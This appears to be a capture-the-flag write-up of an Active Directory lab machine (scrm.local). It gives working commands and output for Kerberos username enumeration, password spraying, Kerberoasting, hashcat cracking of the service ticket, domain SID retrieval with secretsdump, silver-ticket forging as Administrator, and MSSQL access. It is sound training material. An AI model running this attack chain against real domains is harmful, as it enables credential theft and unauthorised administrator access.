

Looking at the IT Support Page, I see that NTLM authentication is disabled. This might come in handy if I get any sort of errors when trying to authenticate later.



Moving to other pages, it looks like they are having some troubles, after a breach, and they are running some sort of custom application on port 4411 that nmap couldn’t identify before. I also got a valid email support@scrm.local

On the New User Account Page there is a form but I couldn’t get any result from it.
I did try directory bruteforcing but again no results. The same goes for fuzzing the application on port 4411.
Username/Password Bruteforce
From here, I thought of using kerberos authentication to bruteforce usernames and maybe passwords also.
Usually I start enumerating usernames using seclists/Usernames/xato-net-10-million-usernames.txt which is a long list of various usernames, to see how usernames look like; for example if they use [First Name].[Last Name] or [First Initial].[Last Name] …, however by looking at the previous terminal screenshot, I can see that ksimpson might be a valid username, so I can assume that usernames are of form [First Initial][Last Name]
Now I can use kerbrute with a specific wordlist, like the ones from kerberos_enum_userlists, specifically I’ll use A-ZSurnames.txt since I know this is how most likely usernames will be.
$ /opt/kerbrute/kerbrute_linux_amd64 userenum -d scrm.local --dc dc1.scrm.local /opt/kerberos_enum_userlists/A-ZSurnames.txt
__ __ __
/ /_____ _____/ /_ _______ __/ /____
/ //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
/ ,< / __/ / / /_/ / / / /_/ / /_/ __/
/_/|_|\___/_/ /_.___/_/ \__,_/\__/\___/
Version: v1.0.3 (9dad6e1) - 10/01/22 - Ronnie Flathers @ropnop
2022/10/01 01:52:59 > Using KDC(s):
2022/10/01 01:52:59 > dc1.scrm.local:88
2022/10/01 01:53:00 > [+] VALID USERNAME: ASMITH@scrm.local
2022/10/01 01:54:00 > [+] VALID USERNAME: JHALL@scrm.local
2022/10/01 01:54:08 > [+] VALID USERNAME: KSIMPSON@scrm.local
2022/10/01 01:54:12 > [+] VALID USERNAME: KHICKS@scrm.local
2022/10/01 01:55:05 > [+] VALID USERNAME: SJENKINS@scrm.local
2022/10/01 01:55:56 > Done! Tested 13000 usernames (5 valid) in 176.760 secondsAfter getting these few results, I thought of doing a simple password guessing attack where I’ll try to login using the username as the password, having different case sensitivity. What I mean is the following:
-
First I’ll copy these results to a temporarily file called tmp:
$ cat tmp 2022/10/01 01:53:00 > [+] VALID USERNAME: ASMITH@scrm.local 2022/10/01 01:54:00 > [+] VALID USERNAME: JHALL@scrm.local 2022/10/01 01:54:08 > [+] VALID USERNAME: KSIMPSON@scrm.local 2022/10/01 01:54:12 > [+] VALID USERNAME: KHICKS@scrm.local 2022/10/01 01:55:05 > [+] VALID USERNAME: SJENKINS@scrm.local -
Then I’ll generate a simple username:password list (of usernames as passwords but having different case sensitivity) because kerbrute accepts using this format for bruteforcing:
$ cat tmp | awk '{print $7}' | awk -F'@' '{print $1":"$1"\n"$1":"tolower($1)"\n"$1":"substr($1,0,1)tolower(substr($1,2))"\n"$1":"substr($1,0,2)tolower(substr($1,3))}' ASMITH:ASMITH ASMITH:asmith ASMITH:Asmith ASMITH:ASmith JHALL:JHALL JHALL:jhall JHALL:Jhall JHALL:JHall KSIMPSON:KSIMPSON KSIMPSON:ksimpson KSIMPSON:Ksimpson KSIMPSON:KSimpson KHICKS:KHICKS KHICKS:khicks KHICKS:Khicks KHICKS:KHicks SJENKINS:SJENKINS SJENKINS:sjenkins SJENKINS:Sjenkins SJENKINS:SJenkins$ cat tmp | awk '{print $7}' | awk -F'@' '{print $1":"$1"\n"$1":"tolower($1)"\n"$1":"substr($1,0,1)tolower(substr($1,2))"\n"$1":"substr($1,0,2)tolower(substr($1,3))}' > users-passwords.txt -
Using this method, I will try 4 invalid login attemps per account which will most likely not trigger any account lockout:
$ /opt/kerbrute/kerbrute_linux_amd64 bruteforce --dc dc1.scrm.local -d scrm.local users-passwords.txt __ __ __ / /_____ _____/ /_ _______ __/ /____ / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \ / ,< / __/ / / /_/ / / / /_/ / /_/ __/ /_/|_|\___/_/ /_.___/_/ \__,_/\__/\___/ Version: v1.0.3 (9dad6e1) - 10/01/22 - Ronnie Flathers @ropnop 2022/10/01 02:17:29 > Using KDC(s): 2022/10/01 02:17:29 > dc1.scrm.local:88 2022/10/01 02:17:30 > [+] VALID LOGIN: KSIMPSON@scrm.local:ksimpson 2022/10/01 02:17:30 > Done! Tested 20 logins (1 successes) in 0.831 seconds
And I got a valid hit!! However I can’t use these credentials directly because NTLM authentication is disabled, so I had to think of other solutions, like using kerberos tickets to interact with the domain.
TGT Request
To do that I need to request a Ticket Granting Ticket from the domain controller, which I will use to authenticate to other services like LDAP. For this I will use impacket-scripts:
$ python3 /opt/impacket/build/scripts-3.10/getTGT.py -dc-ip dc1.scrm.local scrm/ksimpson:ksimpson
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation
[*] Saving ticket in ksimpson.ccacheAnd to use this ticket, I need to store it in an environment variable that impacket uses by default:
$ python3 /opt/impacket/build/scripts-3.10/getTGT.py --help
...
-k Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it will use the ones specified in the command line
...
$ export KRB5CCNAME=ksimpson.ccacheKerberosting Attack
From here, using impacket-scripts, I can query LDAP for different information, so I’ll look for any Service Principal Name to see if kerberosting attack might work.
- Note: If you’re following along using older versions of impacket (<0.9.25) and you’re getting an error like … derived from BaseException … then you can either clone the newer version of impacket-scripts or follow the solution proposed by the author of this machine. For this write-up, I will use the newer version of impacket 0.10.1 as of the time of writing this.
$ python3 /opt/impacket/build/scripts-3.10/GetUserSPNs.py -dc-host dc1.scrm.local scrm.local/ksimpson:ksimpson -k -no-pass -target-domain scrm.local
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation
ServicePrincipalName Name MemberOf PasswordLastSet LastLogon Delegation
---------------------------- ------ -------- -------------------------- -------------------------- ----------
MSSQLSvc/dc1.scrm.local:1433 sqlsvc 2021-11-03 18:32:02.351452 2022-10-01 02:52:28.543759
MSSQLSvc/dc1.scrm.local sqlsvc 2021-11-03 18:32:02.351452 2022-10-01 02:52:28.543759 - Notice the use of dc1.scrm.local using the flag -dc-host and not the ip address like -dc-host 10.10.11.168 which will give an error.
Requesting Ticket
It appears that I can do kerberosting attack against MSSQLSvc, so I’ll append the -request to the previous command to get the encrypted ticket for this service.
$ python3 /opt/impacket/build/scripts-3.10/GetUserSPNs.py -dc-host dc1.scrm.local scrm.local/ksimpson:ksimpson -k -no-pass -target-domain scrm.local -request
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation
ServicePrincipalName Name MemberOf PasswordLastSet LastLogon Delegation
---------------------------- ------ -------- -------------------------- -------------------------- ----------
MSSQLSvc/dc1.scrm.local:1433 sqlsvc 2021-11-03 18:32:02.351452 2022-10-01 02:52:28.543759
MSSQLSvc/dc1.scrm.local sqlsvc 2021-11-03 18:32:02.351452 2022-10-01 02:52:28.543759
$krb5tgs$23$*sqlsvc$SCRM.LOCAL$scrm.local/sqlsvc*$38ac0e94da96e9299e64f23d20f88676$e2108160934493e1d8fb52858eb0b496de7803f86824345c8248901d01f29d72b4d70d7893ef49a2b1533b370713430e1425005bf94e0ccf8caa86b641cf79e6c505468ecfb10a0bbb92401e60d6e8e739415ac438710dabb4a91ff0f40717735588976685723d47511c4018ec60820beed32a2f0af6bb970781581c46afc1df4506058711c38a6892b615f4f71acd96cde456d8ad941cdb41957fbeaab2329ae86c952ee4a08c4240a26cdda138b72ee120a4476aaeb89974bc00afab02149b4b45deff940965e3182741ad128f5f4cb126557d4e6e5fff6cd4e929db656000296d8f1da9b8140563e1d655c3403e9af591b1d7842d4afaab1a0d38bc07eac84dbea11ac57c7b6f60af3fa23cdcf102813add3109b34738d10251731933de08f26f9dde27483a90f557644b1bcffd7f9d66f4bad2881f379be926d95ac3ef42c71eb7423dcbc06ea3b4977b119cb9ea29579e8da48b23d8414268488bd0160dffa75c77349fdbdbd615fc2c2011b9ec3a1f4af34e953d026c66b71456b7688a01473c8f8b3feccec7bfe1704f031a5ed5ae1ac654a8652e2bf7c9bb365c01d23fba38a6dcbd4cd62dbf0fd6d102a403fb5f0beb5e05132f7684ff73e8d3f34111d7bd2b313c8b7cf09df19d98c40235d9a825b5a084f65ba14cb10c78c404e159b4976cd081835d627fba402877285cc9dba95a37069cb85d79e49f129ac45f3cc1b819a61e84beeebaebfd6ed87d8a8ddeef31d953050692bf5fde183e28fb96c3dac626e7d9ec7e87d860b319b8995bc485e18be089e19f2500f1d209c43880146b9381f33d36d659219a061596feaed3d6a97602bc823c256e635bbb3eeaa708e5365006d97570dccc71fae7e0d08aaab633ee03ce96a2650628f9e7715ae90b5a5b0e9221ae6a2bf88907ac9aaa0a534b09799b0261787d77c9ccb74cdcfe07e840e1dcbcd6c5eb64976ce3abed14c2e92c3754daf3941009a60652822e03346a7ad5ca4a3766ea68fa8edd8968bfe1d98a069a064e41926e762bc1c6abb3e2a57c87505ef9d377b1fc5fdea5e7b0af4de5ccaaa4ee78548a7e0f19e9a28c34d18285c1c792cd481b7867ad45b5e15035e368f3e2735d0bf66fe5427943115f08ab3ef186c2169a7c305ae48b61180d4ef1d51e3179d181fb97be3c6b26ca8419f6680d714b45c96ae443e3ea8bcd319045847a2db3e2942082805540bb39c790a535e992e9f4f860922bdaeb181680f1366c9d0119ccd97d02fa18aae5af9138990771bcd25da4356c31896f6b471393da256c0f64d86851e6705ba68298711a21cc039f98139056813d1ebb4dd43085e68668a31c76e0935c8146eb490260614a58786816cc63530bd6cb9034b646e359647e61b650fd73f10839feb4b8c92a8d58c8c7ab604b07a0cd86aaab0e4586231fc74abf0e3ca0Cracking Ticket Using Hashcat
And now I’ll try to crack this ticket using hachcat and rockyou.txt:
$ hashcat -a 0 -m 13100 '$krb5tgs$23$*sqlsvc$SCRM.LOCAL$scrm.local/sqlsvc*$38ac0e94da96e9299e64f23d20f88676$e2108160934493e1d8fb52858eb0b496de7803f86824345c8248901d01f29d72b4d70d7893ef49a2b1533b370713430e1425005bf94e0ccf8caa86b641cf79e6c505468ecfb10a0bbb92401e60d6e8e739415ac438710dabb4a91ff0f40717735588976685723d47511c4018ec60820beed32a2f0af6bb970781581c46afc1df4506058711c38a6892b615f4f71acd96cde456d8ad941cdb41957fbeaab2329ae86c952ee4a08c4240a26cdda138b72ee120a4476aaeb89974bc00afab02149b4b45deff940965e3182741ad128f5f4cb126557d4e6e5fff6cd4e929db656000296d8f1da9b8140563e1d655c3403e9af591b1d7842d4afaab1a0d38bc07eac84dbea11ac57c7b6f60af3fa23cdcf102813add3109b34738d10251731933de08f26f9dde27483a90f557644b1bcffd7f9d66f4bad2881f379be926d95ac3ef42c71eb7423dcbc06ea3b4977b119cb9ea29579e8da48b23d8414268488bd0160dffa75c77349fdbdbd615fc2c2011b9ec3a1f4af34e953d026c66b71456b7688a01473c8f8b3feccec7bfe1704f031a5ed5ae1ac654a8652e2bf7c9bb365c01d23fba38a6dcbd4cd62dbf0fd6d102a403fb5f0beb5e05132f7684ff73e8d3f34111d7bd2b313c8b7cf09df19d98c40235d9a825b5a084f65ba14cb10c78c404e159b4976cd081835d627fba402877285cc9dba95a37069cb85d79e49f129ac45f3cc1b819a61e84beeebaebfd6ed87d8a8ddeef31d953050692bf5fde183e28fb96c3dac626e7d9ec7e87d860b319b8995bc485e18be089e19f2500f1d209c43880146b9381f33d36d659219a061596feaed3d6a97602bc823c256e635bbb3eeaa708e5365006d97570dccc71fae7e0d08aaab633ee03ce96a2650628f9e7715ae90b5a5b0e9221ae6a2bf88907ac9aaa0a534b09799b0261787d77c9ccb74cdcfe07e840e1dcbcd6c5eb64976ce3abed14c2e92c3754daf3941009a60652822e03346a7ad5ca4a3766ea68fa8edd8968bfe1d98a069a064e41926e762bc1c6abb3e2a57c87505ef9d377b1fc5fdea5e7b0af4de5ccaaa4ee78548a7e0f19e9a28c34d18285c1c792cd481b7867ad45b5e15035e368f3e2735d0bf66fe5427943115f08ab3ef186c2169a7c305ae48b61180d4ef1d51e3179d181fb97be3c6b26ca8419f6680d714b45c96ae443e3ea8bcd319045847a2db3e2942082805540bb39c790a535e992e9f4f860922bdaeb181680f1366c9d0119ccd97d02fa18aae5af9138990771bcd25da4356c31896f6b471393da256c0f64d86851e6705ba68298711a21cc039f98139056813d1ebb4dd43085e68668a31c76e0935c8146eb490260614a58786816cc63530bd6cb9034b646e359647e61b650fd73f10839feb4b8c92a8d58c8c7ab604b07a0cd86aaab0e4586231fc74abf0e3ca0' /usr/share/wordlists/rockyou.txt
...
$krb5tgs$23$*sqlsvc$SCRM.LOCAL$scrm.local/sqlsvc*$38ac0e94da96e9299e64f23d20f88676$e2108160934493e1d8fb52858eb0b496de7803f86824345c8248901d01f29d72b4d70d7893ef49a2b1533b370713430e1425005bf94e0ccf8caa86b641cf79e6c505468ecfb10a0bbb92401e60d6e8e739415ac438710dabb4a91ff0f40717735588976685723d47511c4018ec60820beed32a2f0af6bb970781581c46afc1df4506058711c38a6892b615f4f71acd96cde456d8ad941cdb41957fbeaab2329ae86c952ee4a08c4240a26cdda138b72ee120a4476aaeb89974bc00afab02149b4b45deff940965e3182741ad128f5f4cb126557d4e6e5fff6cd4e929db656000296d8f1da9b8140563e1d655c3403e9af591b1d7842d4afaab1a0d38bc07eac84dbea11ac57c7b6f60af3fa23cdcf102813add3109b34738d10251731933de08f26f9dde27483a90f557644b1bcffd7f9d66f4bad2881f379be926d95ac3ef42c71eb7423dcbc06ea3b4977b119cb9ea29579e8da48b23d8414268488bd0160dffa75c77349fdbdbd615fc2c2011b9ec3a1f4af34e953d026c66b71456b7688a01473c8f8b3feccec7bfe1704f031a5ed5ae1ac654a8652e2bf7c9bb365c01d23fba38a6dcbd4cd62dbf0fd6d102a403fb5f0beb5e05132f7684ff73e8d3f34111d7bd2b313c8b7cf09df19d98c40235d9a825b5a084f65ba14cb10c78c404e159b4976cd081835d627fba402877285cc9dba95a37069cb85d79e49f129ac45f3cc1b819a61e84beeebaebfd6ed87d8a8ddeef31d953050692bf5fde183e28fb96c3dac626e7d9ec7e87d860b319b8995bc485e18be089e19f2500f1d209c43880146b9381f33d36d659219a061596feaed3d6a97602bc823c256e635bbb3eeaa708e5365006d97570dccc71fae7e0d08aaab633ee03ce96a2650628f9e7715ae90b5a5b0e9221ae6a2bf88907ac9aaa0a534b09799b0261787d77c9ccb74cdcfe07e840e1dcbcd6c5eb64976ce3abed14c2e92c3754daf3941009a60652822e03346a7ad5ca4a3766ea68fa8edd8968bfe1d98a069a064e41926e762bc1c6abb3e2a57c87505ef9d377b1fc5fdea5e7b0af4de5ccaaa4ee78548a7e0f19e9a28c34d18285c1c792cd481b7867ad45b5e15035e368f3e2735d0bf66fe5427943115f08ab3ef186c2169a7c305ae48b61180d4ef1d51e3179d181fb97be3c6b26ca8419f6680d714b45c96ae443e3ea8bcd319045847a2db3e2942082805540bb39c790a535e992e9f4f860922bdaeb181680f1366c9d0119ccd97d02fa18aae5af9138990771bcd25da4356c31896f6b471393da256c0f64d86851e6705ba68298711a21cc039f98139056813d1ebb4dd43085e68668a31c76e0935c8146eb490260614a58786816cc63530bd6cb9034b646e359647e61b650fd73f10839feb4b8c92a8d58c8c7ab604b07a0cd86aaab0e4586231fc74abf0e3ca0:Pegasus60
...Silver Ticket Attack
The password for this SQL service is Pegasus60, so I can now use a Silver Ticket Attack against this service and pretend to be the Administrator.
-
First, I need to get the NTLM hash for this password which is required by impacket-ticketer.py script. I can do that using an online NTLM hash generator like tobtu for example. 
-
Next, I need to get the SID of the domain. There are plenty of ways, using LDAP for example, but the simplest one is to use impacket-secrectsdump.py with the -debug option since I am on linux:
It does not really matter if I get an error, the important thing is that I got the domain SID S-1-5-21-2743207045-1827831105-2542523200 (without -500 which is the RID)$ python3 /opt/impacket/build/scripts-3.10/secretsdump.py scrm.local/ksimpson:ksimpson@dc1.scrm.local -k -no-pass -debug ... [+] Calling DRSCrackNames for S-1-5-21-2743207045-1827831105-2542523200-500 [+] Calling DRSGetNCChanges for {edaf791f-e75b-4711-8232-3cd66840032a} Traceback (most recent call last): File "/opt/impacket/build/scripts-3.10/secretsdump.py", line 230, in dump self.__NTDSHashes.dump() ... -
Finally, I can request a Silver Ticket using impacket-ticketer.py:
$ python3 /opt/impacket/build/scripts-3.10/ticketer.py -nthash B999A16500B87D17EC7F2E2A68778F05 -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -domain scrm.local -user ksimpson -password ksimpson Administrator Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation [*] Creating basic skeleton ticket and PAC Infos [*] Customizing ticket for scrm.local/Administrator [*] PAC_LOGON_INFO [*] PAC_CLIENT_INFO_TYPE [*] EncTicketPart [*] EncAsRepPart [*] Signing/Encrypting final ticket [*] PAC_SERVER_CHECKSUM [*] PAC_PRIVSVR_CHECKSUM [*] EncTicketPart [*] EncASRepPart [*] Saving ticket in Administrator.ccache
Interacting with SQL Server As Administrator
Now I can export the ticket like I did before, and interact with the SQL service pretending to be the Administrator:
$ export KRB5CCNAME=Administrator.ccache
$ python3 /opt/impacket/build/scripts-3.10/mssqlclient.py scrm.local -k -no-pass
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC1): Line 1: Changed database context to 'master'.
[*] INFO(DC1): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[!] Press help for extra shell commands
SQL> Enumerating the Database
I’ll enumerate databases looking for some credentials:
SQL> SELECT name FROM master.dbo.sysdatabases
name
--------------------------------------------------------------------------------------------------------------------------------
master
tempdb
model
msdb
ScrambleHR
SQL> use ScrambleHR;
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: ScrambleHR
[*] INFO(DC1): Line 1: Changed database context to 'ScrambleHR'.
